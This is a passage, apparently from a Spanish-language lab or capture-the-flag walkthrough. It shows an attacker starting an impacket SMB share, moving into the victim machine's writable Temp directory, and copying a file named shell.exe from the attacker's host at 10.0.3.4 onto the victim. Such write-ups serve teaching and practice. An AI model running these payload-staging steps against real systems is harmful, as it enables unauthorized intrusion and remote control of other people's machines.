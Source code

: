    
    - Cerramos el recurso compartido que habíamos creado en caso de tenerlo activo. Y creamos otro nuevo.
        
        ```bash
        impacket-smbserver recurso $(pwd) -smb2support
        ```
        
        ![image.png](./imagenes/image%2070.png)
        
    - En el termina que habíamos abierto anterior mente de la maquina victima nos movemos al directorio **\Temp .** Ya que por lo general en este directorio tenemos permisos de escritura.
        
        `cd ..`
        
        `cd ..`
        
        `cd temp`
        
        ![image.png](./imagenes/image%2071.png)
        
    - Copiamos el archivo shell.exe desde el recurso compartido al directorio **temp**.
        
        `copy \\10.0.3.4\recurso\shell.exe shell.exe`
        